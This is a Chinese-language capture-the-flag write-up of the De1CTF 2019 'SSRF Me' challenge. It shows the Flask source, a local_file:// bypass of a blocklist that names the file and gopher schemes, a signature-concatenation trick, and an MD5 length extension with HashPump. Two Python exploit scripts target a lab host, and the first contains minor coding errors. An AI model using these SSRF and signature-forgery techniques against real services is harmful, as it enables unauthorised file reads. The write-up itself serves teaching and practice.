 ## 0x03 [De1CTF 2019]SSRF Me

靶机首页就是源码

Hint:提示flag is in ./flag.txt

所以我们得想办法读取这个文件,首先看有哪几个路由，分别有什么用

```python
#generate Sign For Action Scan. 为scan创建一个标志?
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)

#核心功能 传参执行Task.Exec()并输出
@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

#首页展示源码...
@app.route('/')
def index():
    return open("code.txt","r").read()
```

看一下调用的类

```python
class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr 利用md5对ip进行了限制“只能”访问外网
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:#如果是action是scan,就往路径下的/result.txt写东西
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:#如果是action是read,就往路径下的/result.txt读
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):#检查签名
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False
```

可以看到有一些校验和waf拦截

还是先继续看核心功能代码

```python
def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"
```

显然我们要在这个param里面注类似”file:flag.txt“来拿到flag

但是被waf给拦了

```python
def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False
```

gopher也不能用

但是这里只过滤了file没有过滤local_file，或者也可以直接flag.txt

参考：https://bugs.python.org/issue35907

>  这里是使用的 urllib.urlopen(param) 去包含的文件，所以可以直接加上文件路径 `flag.txt` 或 `./flag.txt` 去访问，也可以使用类似的 `file:///app/flag.txt` 去访问，但是 `file` 关键字在黑名单里，可以使用 `local_file` 代替
>
>  https://xz.aliyun.com/t/5927#toc-3

所以我们可以用``local_file:///proc/self/cwd/flag.txt``来访问

然后在action里``scan+read``就可以读文件了

执行还需要签名满足

``getSign(self.action, self.param) == self.sign``

```python
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()
```

因为secret_key是未知的，我们必须先调用geneSign去拿到签名，但该函数限定了action为``scan``怎么办？

注意到这个是字符串直接拼一起的，

所以我们一开始调用

```
local_file:///proc/self/cwd/flag.txtread
```

就可以拿到对应的签名了

先写一个Exp框架

```python
#coding=utf-8
import requests

conn = requests.session()

url = "http://f3d586ad-6270-49ac-843c-3ca9b419ab4b.node3.buuoj.cn"

def geneSign(param):
    param = {
        "param": param,
    }
    resp = conn.get(url+"./geneSign",param=param).text
    print resp
    return resp
def challenge(action,param,sign):
    param = {
        "param":param,
    }
    cookie = {
        "action": action,
        "sign": sign,
    }
    resp = conn.get(url+"/De1ta",param=param,cookie=cookie)
    print resp
    return resp
```

第二个绕开sign限制的方法还是挺有意思的,利用哈希扩展攻击

利用条件：

1. 我们要知道salt（只能是前缀）的长度。
2. 要知道任意一个由salt加密后的md5值，并且知道没有加盐的明文。
3. 用户可以提交md5值。

这里的salt就是secret_key+filename

工具Hashdump

```bash
root@EDI:~/HashPump#  hashpump
Input Signature: f173c63af1a6be383330bb97d7714446
Input Data: scan
Input Key Length: 24
Input Data to Add: read
3ff498706cc3cfef41b86e94343ebe97
scan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read
```

注意要将\x80等字符转换为URL编码，否则会报400错误

Exp2:

```
#coding=utf-8
import requests
conn = requests.Session()

url = "http://f3d586ad-6270-49ac-843c-3ca9b419ab4b.node3.buuoj.cn"
def geneSign(param):
    data = {
        "param": param
    }
    resp = conn.get(url+"/geneSign",params=data).text
    print resp
    return resp

def challenge(action,param,sign):
    cookie={
        "action":action,
        "sign":sign
    }
    params={
        "param":param
    }
    resp = conn.get(url+"/De1ta",params=params,cookies=cookie).text
    return resp

filename = "flag.txt" #长度为8 +16位的key 24位
payload = "scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%00%00%00%00%00%00%00read"
sign = "3ff498706cc3cfef41b86e94343ebe97"
print challenge(payload,filename,sign)
```

### 参考资料

[https://www.cnblogs.com/20175211lyz/p/11440316.html](https://www.cnblogs.com/20175211lyz/p/11440316.html)